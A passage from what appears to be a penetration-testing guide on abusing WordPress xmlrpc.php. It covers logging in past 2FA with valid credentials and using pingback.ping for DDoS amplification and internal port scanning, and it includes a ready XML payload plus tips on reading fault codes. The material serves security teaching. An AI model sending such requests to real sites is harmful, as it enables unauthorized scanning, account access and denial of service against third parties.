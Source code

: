 This method is meant for programs and not for humans, and old, therefore it doesn't support 2FA. So, if you have valid creds but the main entrance is protected by 2FA, **you might be able to abuse xmlrpc.php to login with those creds bypassing 2FA**. Note that you won't be able to perform all the actions you can do through the console, but you might still be able to get to RCE as Ippsec explains it in [https://www.youtube.com/watch?v=p8mIdm93mfw\&t=1130s](https://www.youtube.com/watch?v=p8mIdm93mfw&t=1130s)

**DDoS or port scanning**

If you can find the method _**pingback.ping**_ inside the list you can make the Wordpress send an arbitrary request to any host/port.\
This can be used to ask **thousands** of Wordpress **sites** to **access** one **location** (so a **DDoS** is caused in that location) or you can use it to make **Wordpress** lo **scan** some internal **network** (you can indicate any port).

```html
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```

![](../../images/1_JaUYIZF8ZjDGGB7ocsZC-g.png)

If you get **faultCode** with a value **greater** then **0** (17), it means the port is open.

Take a look to the use of **`system.multicall`** in the previous section to learn how to abuse this method to cause DDoS.

